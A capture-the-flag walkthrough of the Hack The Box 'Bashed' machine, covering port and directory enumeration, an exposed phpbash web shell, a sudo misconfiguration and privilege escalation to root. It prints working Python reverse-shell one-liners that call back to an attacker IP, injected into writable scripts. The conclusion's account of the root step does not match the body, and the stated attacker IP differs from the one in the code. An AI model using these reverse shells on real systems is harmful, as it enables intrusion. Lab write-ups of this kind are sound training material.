

## Enumeration

We start by running nmap to see what ports are on on the target machine 
```bash
sudo nmap -sV 10.10.10.68  
```
`-sV` enables version detection.
Output:
```bash                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 15:47 CEST
Nmap scan report for 10.10.10.68
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

```

If we browse to `10.10.10.68  ` we are told that the server is build on [phpbash]([https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash))

The word list is a bit tricky here I ended up using this
https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-big.txt

```bash
feroxbuster -u http://10.10.10.68/ -w ./directory-list-2.3-big.txt -r -C 404 -x php
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/PathBANGER.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        7l       23w     1322c http://10.10.10.68/images/favicon.png
200      GET      154l      394w     7477c http://10.10.10.68/single.html
200      GET      161l      397w     7743c http://10.10.10.68/index.html
200      GET        8l       35w     2447c http://10.10.10.68/images/logo.png
200      GET       32l      116w     1222c http://10.10.10.68/css/carouFredSel.css
200      GET       12l       63w     1392c http://10.10.10.68/js/jquery.mousewheel.min.js
200      GET        8l       73w     2429c http://10.10.10.68/js/html5.js
200      GET       13l      113w     4313c http://10.10.10.68/js/jquery.touchSwipe.min.js
200      GET       15l      672w    36079c http://10.10.10.68/js/jquery.carouFredSel-6.0.0-packed.js
200      GET      118l      550w    60153c http://10.10.10.68/js/jquery.nicescroll.min.js
200      GET        1l        1w       14c http://10.10.10.68/uploads/
200      GET       58l      254w     1783c http://10.10.10.68/js/jquery.easing.1.3.js
200      GET      117l      685w     4689c http://10.10.10.68/css/sm-clean.css
200      GET       96l      166w     1661c http://10.10.10.68/css/clear.css
200      GET      680l     1154w    10723c http://10.10.10.68/css/common.css
200      GET      262l      560w     8904c http://10.10.10.68/js/main.js
200      GET      893l     3885w    26643c http://10.10.10.68/js/imagesloaded.pkgd.js
200      GET        4l       66w    29063c http://10.10.10.68/css/font-awesome.min.css
200      GET        3l      206w    24476c http://10.10.10.68/js/jquery.smartmenus.min.js
200      GET     1412l     2291w    24164c http://10.10.10.68/style.css
200      GET        6l       20w     1537c http://10.10.10.68/images/arrow.png
200      GET       19l       88w     1564c http://10.10.10.68/images/
200      GET       38l       76w      909c http://10.10.10.68/js/custom_google_map_style.js
200      GET      154l     1009w    73725c http://10.10.10.68/images/ajax-document-loader.gif
200      GET        6l     1435w    97184c http://10.10.10.68/js/jquery.js
200      GET      161l      397w     7743c http://10.10.10.68/
200      GET        0l        0w        0c http://10.10.10.68/php/sendMail.php
200      GET       16l       59w      939c http://10.10.10.68/php/
200      GET       20l       96w     1758c http://10.10.10.68/css/
200      GET      216l      489w     8151c http://10.10.10.68/dev/phpbash.php
200      GET        1l      255w     4559c http://10.10.10.68/dev/phpbash.min

```

## Observations & Exploit

HTB was so kind to give us a webshell at:
```bash
http://10.10.10.68/dev/phpbash.php
```



Inside phpbash:
```bash
whoami      # www-data
id           # uid=33(www-data)
ls /home     # arrexel, scriptmanager
sudo -l
```

We discover a key privilege escalation path:
```bash
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
This means www-data can run any command as `scriptmanager`, using `sudo`.

Although we cannot use `su scriptmanager` (no password), we can execute commands as `scriptmanager` with:
```bash
sudo -u scriptmanager <command>
```

We check `/scripts`:
```bash
sudo -u scriptmanager ls -la /scripts
```

We find a Python file named `test.py` owned by `scriptmanager`, which we can modify:
```shell
echo 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])' | sudo -u scriptmanager tee /scripts/test.py > /dev/null
```
Note: `10.10.14.11` is the VPN IP of the attacking machine

Set up a netcat Listener:
```bash
nc -lvnp 4444
```

Trigger the reverse shell:
```bash
sudo -u scriptmanager python /scripts/test.py
```

Boom we have a shell!
## Privileges Escalation

This gives us a reverse shell as `scriptmanager` on our local machine.
Lets upgrade it!
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
scriptmanager
cd /scripts
```

Setup another listener in a new terminal tab:
```bash
nc -lvnp 4444
```

Back in the shell
```bash
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root.py
```

Now just wait for a few min until root executes it and now check the listener and we should be root!
```bash
whoami    
root
cat /root/root.txt
07e7b90a784d3f7*****************
cat /home/arrexel/user.txt
817fffdd4cc7a88*****************
```


### Conclusion

In the _Bashed_ Hack The Box machine, initial access was obtained through an exposed `phpbash.php` web shell running as the low-privileged `www-data` user. During enumeration, it was discovered that `www-data` had misconfigured `sudo` permissions, allowing it to run any command as the `scriptmanager` user without requiring a password. Although direct switching to `scriptmanager` wasn’t possible, we leveraged `sudo -u scriptmanager` to inject a Python reverse shell into a writable script file (`/scripts/test.py`). By triggering this file, we received a reverse shell connection back to our local Mac, this time as `scriptmanager`. From there, a simple privilege escalation was achieved by running `/bin/bash` as root using `sudo`, completing the compromise and granting access to both the user and root flags. This box serves as a lesson in the dangers of exposed dev tools, overly permissive `sudo` rules, and unmonitored script execution paths.


